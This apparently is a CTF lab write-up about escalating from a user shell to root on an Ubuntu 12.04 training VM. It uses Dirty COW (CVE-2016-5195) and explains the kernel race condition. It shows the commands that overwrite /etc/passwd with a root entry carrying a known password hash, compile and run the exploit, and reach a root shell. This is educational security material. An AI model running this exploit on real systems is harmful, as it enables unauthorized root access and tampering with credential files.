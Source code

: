 # Introduction
For the second writeup, we will assume that we already have access to a shell on the machine. Please refer to [writeup1.md](./writeup1.md) for more information on how to get a shell on the machine.

# Finding an exploit
We will use a popular script called [linux-exploit-suggester](https://github.com/The-Z-Labs/linux-exploit-suggester/blob/master/linux-exploit-suggester.sh) to find a possible exploit for our machine:
```
➜  ~ ./linux-exploit-suggester.sh

Available information:

Kernel version: 3.2.0
Architecture: i386
Distribution: ubuntu
Distribution version: 12.04
Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed
Package listing: from current OS

Searching among:

81 kernel space exploits
49 user space exploits

Possible Exploits:

[+] [CVE-2016-5195] dirtycow
[...]
```

# Dirtycow

## Explanation
Here's a quick explanation of how it works:
as you can see we're going to write to a write protected file `/etc/passwd`, normally this would not be possible, but we can bypass this thanks to a race condition in the kernel:

 First, we use mmap to map the file to our virtual memory. Since the file is write-protected, we can't write to it directly. Therefore, we use the `MAP_PRIVATE` flag, which will create a copy of the file in our virtual memory when we attempt to write to it (this is known as "copy-on-write" or `COW`). However, until we attempt to write, our mapping points to the actual file's memory.

The exploit takes advantage of the behavior I just described. We will have two processes: one tries to write each character of our string to the corresponding position in the file repeatedly (with `ptrace`), and the other informs the kernel that we no longer need that memory (`madvise` with `MADV_DONTNEED`).  
While the kernel attempts to discard the pages as instructed by `madvise`, it simultaneously tries to create a private copy for the `COW` mechanism, since we are attempting to write to it using `ptrace`.  
If we're lucky (or if we execute it enough times), a race condition occurs where `ptrace` successfully writes to the file before the kernel can create a copy of the page. This will result in the file being modified.  
After the `COW` mechanism triggers, writing to the write-protected file directly is no longer possible, and any further writes will be directed to the copy of the file in our virtual memory.  
*But we still have a lot of loops simply because we don't know, how many attempts it will take to get the race condition to happen.*

If you would like to learn more about dirtycow, I recommend reading [this github wiki](https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails) and to watch [this video](https://www.youtube.com/watch?v=kEsshExn7aE).

## Exploitation
I will modify the [pokemon C code](https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c) to gain a root shell. The modified C code is available at [exploit.c](./scripts/exploit.c).   
Next, I plan to inject the string `root:As.Qw2p5l2zVE:0:0::/root:/bin/bash\n` into the `/etc/passwd` file. The methodology behind crafting this string is documented in the comments of the exploit.c file.

First let's see the state of the `/etc/passwd` file:
```
zaz@BornToSecHackMe:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
[...]
```

Alright, let's compile the exploit and run it:
```
zaz@BornToSecHackMe:~$ gcc -pthread exploit.c
zaz@BornToSecHackMe:~$ ./a.out
mmap b7fda000

madvise 0

ptrace 0
```

Alright, let's see if the exploit worked:
```
zaz@BornToSecHackMe:~$ cat /etc/passwd
root:As.Qw2p5l2zVE:0:0::/root:/bin/bash
ma1:daemon:/usr/sbin:/bin/sh
[...]
```

It worked ! Let's try to login as root with the password `Password` (*this is the password before it was hashed to `As.Qw2p5l2zVE`*).

# We are root
```
zaz@BornToSecHackMe:~$ su root
Password:
root@BornToSecHackMe:/home/zaz# whoami
root
root@BornToSecHackMe:/home/zaz# id
uid=0(root) gid=0(root) groups=0(root)
```

That's it !